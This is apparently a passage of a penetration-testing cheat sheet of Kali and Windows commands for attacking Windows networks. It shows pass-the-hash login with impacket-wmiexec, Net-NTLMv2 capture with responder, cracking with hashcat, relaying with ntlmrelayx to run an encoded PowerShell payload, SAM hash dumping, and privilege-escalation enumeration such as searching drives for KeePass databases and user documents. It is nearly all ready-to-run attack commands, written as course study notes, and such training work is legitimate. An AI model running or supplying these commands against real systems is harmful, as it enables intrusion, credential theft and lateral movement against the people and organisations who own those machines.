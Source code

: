 ` kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`

<a name="cracking-net-ntlmv2"></a>
## Cracking Net-NTLMv2
`kali@kali:~$ sudo responder -I tap0 
C:\> dir \\IP_Kali\test`
`kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`

<a name="relaying-net-ntlmv2"></a>
## Relaying Net-NTLMv2
`kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t IP_Target -c "powershell -enc JABjAGwAaQBlAG4AdA..."`
`C:\>dir \\IP_Kali\test`

> when finding backup SAM and SYSTEM files in windows.old/Windows/system32

`kali@kali:~$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL > SAMhashes`

> dont use samdump2. It ouputs wrong hashes

<a name="windows-privilege-escalation"></a>
# Windows Privilege Escalation
<a name="situational-awareness"></a>
## Situational Awareness
`C:\> whoami /groups`
`PS C:\> Get-LocalUser`
`PS C:\> Get-LocalGroup`
`PS C:\> Get-LocalGroupMember Administrators`
`C:\> systeminfo`
`C:\> ipconfig /all`
`C:\> route print`
`C:\> netstat -ano`

<a name="hidden-in-plain-view"></a>
## Hidden in Plain View
`PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
`PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
`PS C:\> Get-Process`
`PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
`PS C:\> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
`PS C:\> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
`C:\> net user steve`
`C:\> runas /user:backupadmin cmd`
